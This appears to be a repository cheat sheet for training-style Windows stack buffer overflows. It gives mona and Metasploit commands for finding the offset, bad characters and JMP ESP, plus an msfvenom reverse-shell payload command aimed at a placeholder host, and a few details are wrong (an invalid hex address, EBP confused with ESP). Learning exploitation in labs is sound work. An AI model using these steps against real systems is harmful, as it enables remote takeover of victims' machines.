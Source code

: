 # Buffer-Overflow-Cheatsheet

In this cheat sheet is noted how we can perform an buffer overflow attack

Install Immunity Debugger this will be needed to perform the bugger overflow exploitation.
can be found on: https://www.immunityinc.com/

After installing Immunity debugger install Mona from: https://github.com/corelan/mona.
Put the .py file in the PyCommands folder (C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands. 
This module will be needed to determine the offset/ find the EIP.

## Fuzzing

After running the program on your Windows machine and have it attached to Immunity Debugger.
Run the fuzzer.py script to identify the point where the application will crash.

## Finding the Offset

After finding the crash point we want to find the Offset to the EIP adress.
To do this we can use the following script to generate a string.
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l {bytes}`

To determine the EIP we can use the following mona command:

`!mona findmsp -distance {used bytes}` *start Mona first using the !mona modules command*

Put the EIP in the exploit.py script and verify that EIP has been overwritten with the character "B" (42 in hexa)


## Badchars

To identify badchars we will use mona.

Run the badchars.py script and put the output in the exploit.py script to run it against the application the identify the badchars.
Use `!mona config -set workingfolder c:\mona\%p` to set the working folder and use `!mona bytearray -b “\x00` and use the compare command to check the values
`!mona compare -f C:\mona\{machine_name}\bytearray.bin -A {ESP ADRESS}`


## JMP ESP

After filtering out the badchars of the application, we will idenfitfy the equivalent for the OPCODE JMP ESP for change the flow of the application to run our shellcode rewriting the stack from its base (EBP). To find the equivalent of the OPCODE JMP ESP we can use the following command: `!mona jmp -r esp -cpb "\x00"`

After finding the EBP adress we need to convert this adress to littl-endian format to use it in our code like this:

`0x0804197R <-> "\x7R\x19\x04\x08"`


## Exploitation

We can now generator our payload to run against our victim machine inserting the badchars we found using mona.
`msfvenom -p windows/shell_reverse_tcp LHOST=LOCAL_IP LPORT=LOCAL_PORT EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a"`

The `EXITFUNC=thread` prevents the shellcode from crashing the application when executing our shellcode.
`-f c` is for file type which is this case is C. `-e x86/shikata_ga_nai` is for the encoding which we use shikata_ga_nai for. `-b "\x00\x0a"` is voor specifying the badchars.

Now just insert the out in the `exploit.py` script and run it against the application to get a reverse shell. Dont forget to open a listener!

